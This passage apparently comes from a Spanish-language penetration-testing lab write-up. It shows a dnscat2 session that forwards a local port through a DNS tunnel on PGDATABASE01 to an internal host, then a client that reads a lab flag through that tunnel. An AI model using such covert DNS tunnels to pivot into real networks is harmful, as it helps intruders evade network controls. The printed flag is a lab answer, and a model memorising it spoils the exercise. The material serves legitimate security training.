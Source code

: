 ```

>> Keyman Grocer Roger Stirs Plato Cleft
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.


command (pgdatabase01) 1> listen 127.0.0.1:4455 172.16.224.217:4646
Listening on 127.0.0.1:4455, sending connections to 172.16.224.217:4646
command (pgdatabase01) 1> Connection from 127.0.0.1:44138; forwarding to 172.16.224.217:4646...
[Tunnel 0] connection successful!
```

Este comando crea un desvío de puertos a través del túnel DNS desde el puerto 4455 de FELINEAUTHORITY a través de PGDATABASE01 hasta el puerto 4646 de HRSHARES:

```
kali@felineauthority:~$ ./dnscat_exercise_client -i 127.0.0.1 -p 4455
Connecting to 127.0.0.1:4455
Flag: "OS{71c9930ffc83a05c2329f93907d16ecf}"
```
